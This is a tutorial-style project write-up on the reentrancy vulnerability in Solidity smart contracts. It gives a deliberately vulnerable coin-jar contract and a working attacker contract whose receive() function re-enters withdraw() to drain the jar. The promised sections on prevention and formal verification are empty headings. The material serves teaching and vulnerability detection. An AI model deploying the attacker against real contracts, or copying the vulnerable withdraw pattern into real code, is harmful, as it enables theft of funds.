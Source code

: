 # Demonstrating the reentrancy vulnerability of smart contracts

The objective of this project is two folds.
The one is to demonstrate the reentrancy vulnerability of smart contract, and the second is to systematically detect a potential vulnerability of a solidity code through formal verification.
The solidity compiler solc has already equipped rich formal verification features due to model checkers and SMT solvers, but in order to carry out it for the reentrancy issue, a programmer has to be aware of such potential problems and explicitly put assertions in a source code, that surely requires skills for secure programming.  For this project, we don't suppose that programmers have such skills, and I am going to offer a prototypical solution for them, so that they get a warning of a presence of potential reentrancy vulnerability in their code wihtout any prerequisite secure programming knowdledge.

The rest of this document is organized as follows.  We first review what the reentrancy problem is.  Then secondly, we are going to see a running example of a vulnerable contract and an attacker contract.  Thirdly, we see a couple of security tips to prevent the problem, and forthly, we apply formal verification to find that our contract is indeed vulnerable, where we also go through a minimal background of formal verification.

The full source codes for this project is published on github.

# Reentrancy

The reentrancy is a cause of security problem which leads to a massive finnancial loss.
As the name suggests, this is due to reentrance of the execution into a function.  Let's take a look at a running example of a vulnerable solidity code.

## Vulnerable smart contract: Coin jar

The following code is a simple smart contract implmenting a coin jar.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

contract Jar {

    mapping(address=>uint) public balance;

    constructor() payable {

    }

    function deposit() external payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() external {
        require(balance[msg.sender] != 0, "zero balance");
        (bool s,) = msg.sender.call{ value: balance[msg.sender] }("");
        require(s, "In Jar.withdrow(), call() failed.");
        balance[msg.sender] = 0;
    }
}
```
It has two external functions, <code>deposit</code> and <code>withdraw</code>, which are respectively to deposit crypto currency to this jar contract and to withdraw one's deposit.  The state variable <code>balance</code> records which contract address has how much deposit, and it is increased as a deposit is made via the <code>deposit</code> function.  The function <code>withdraw</code> is used to withdraw all the asset which one has deposited so far.  It first checks that the balance is non-zero, send the deposit to the original asset owner (i.e. <code>msg.sender</code>), and then in case of the transfer is successful the balance is reset to zero.

This smart contract has a security problem due to the use of the <code>call</code> function.  Alrhough the call message is the null string (i.e. <code>""</code>), this invokes a payable function in case <code>msg.sender</code> is a smart contract, and the content of the payable function is in general unkonwn and hence arbitrary.

We are going to see that we can create a malicious contract which can steal money from the Jar contract by repeatedly calling the <code>withdraw</code> function of the Jar contract; that is why this vulnerability is called reentrancy.

# Attacking a vulnerable contract
The following smart contract is a successful attacker.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

interface IJar {
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {

    IJar public jar;
    address public owner;

    constructor(address _jar) payable {
        jar = IJar(_jar);
        owner = msg.sender;
    }

    function deposit() public {
        jar.deposit{ value: 1 ether }();
    }

    function attack() public {
        jar.withdraw();
    }

    receive() external payable {
        if (address(jar).balance >= 1 ether) {
            jar.withdraw();
        }
    }

    function withdraw() public {
        require (msg.sender == owner);
        (bool s, ) = owner.call{ value: address(this).balance}("");
        require (s);
    }
}
```
The definition of <code>IJar</code> stands for the interface to <code>Jar</code>.  This <code>Attacker</code> contract should be deployed with an argument the address of the target contract.  By <code>deposit</code>, this attacker contract makes a deposit in the target <code>Jar</code> contract.  Assuming we have made 1 ether of deposit, the <code>attack</code> funtion starts the main business of this attacker contract.  It calls <code>withdraw</code> function of the <code>Jar</code>, then the <code>Jar</code> contract sends 1 ether, the exact deposit amount, to the <code>Attacker</code> contract by means of the <code>call</code> function.  This <code>call</code> function invokes the <code>receive</code> function of the attacker contract, which again withdraw money from the <code>Jar</code> contract as long as the <code>Jar</code> contract owns at least 1 ether.  Reentering the <code>withdraw</code> function of the <code>Jar</code> contract, the balance of the attacker is still 1 ether, and hence it sends 1 ether to the attacker.  This process goes on until the asset of <code>Jar</code> subseeds 1 ether, namely, <code>Jar</code> loses nearly all its asset.

# Secure programming to prevent reentrancy


# Formal verification
